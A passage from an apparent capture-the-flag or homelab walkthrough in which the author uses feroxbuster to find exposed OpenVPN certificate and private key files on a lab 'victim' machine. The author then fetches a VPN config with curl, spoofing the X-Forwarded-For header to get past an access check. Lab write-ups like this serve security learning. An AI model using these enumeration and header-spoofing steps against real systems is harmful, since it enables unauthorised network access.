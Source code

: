 ```

persist-key                 <-- Keep Keys
persist-tun                 <-- Keep Tunnel
explicit-exit-notify        <-- Notify Server Exit
```
{: .nolineno }

From above example file I require 4 things I guess 🔻

1. <span style="color:rgb(0, 83, 250)">your_server_ip</span> : This will be the victim machine IP address.
2. <span style="color:rgb(0, 83, 250)">ca</span> <b><span style="color:rgb(0, 83, 250)">ca.crt</span></b> : This directive specifies the file containing the Certificate Authority (CA) certificate. This certificate is shared between the OpenVPN server and all clients and is crucial for authenticating the server.
3. <span style="color:rgb(0, 83, 250)">cert</span> <b><span style="color:rgb(0, 83, 250)">client.crt</span></b> : This specifies the client's public certificate file. Each client should have its own unique certificate/key pair for optimal security.
4. <span style="color:rgb(0, 83, 250)">key</span> <b><span style="color:rgb(0, 83, 250)">client.key</span></b> : This directive points to the client's private key file. This file must be kept secret and secure on the client machine.

For these files I guess I have to do again directory brute-forcing where I have to look for these certificate extensions.

```bash
└─$ feroxbuster -u 'http://10.0.2.34/service/' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 100 -d 2 -x crt,key,cert
```
{: .nolineno }

```bash
200      GET        1l       10w       59c http://10.0.2.34/service/
200      GET       84l      139w     4492c http://10.0.2.34/service/client.crt
200      GET       20l       22w     1200c http://10.0.2.34/service/ca.crt
200      GET       30l       36w     1862c http://10.0.2.34/service/client.key
```
{: .nolineno }

I got the files let's put it into the <mark style="background: #FFB86CA6;">openvpn</mark> file that I get from the service page like this 🔻

```http
└─$ curl --path-as-is -s -X 'GET' 'http://10.0.2.34/service/index.php' -H  "X-Forwarded-For:10.0.2.34" -o homelab.ovpn
```
{: .nolineno }

Now lets put all the data entries inside the <mark style="background: #FFB86CA6;">OpenVPN</mark> file 🔻

```bash
└─$ cat homelab.ovpn 
# Last modified by shinosawa
# on 2024-12-21

# Example Configuration File

client
dev tun
proto udp
remote 10.0.2.34 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
cert client.crt
```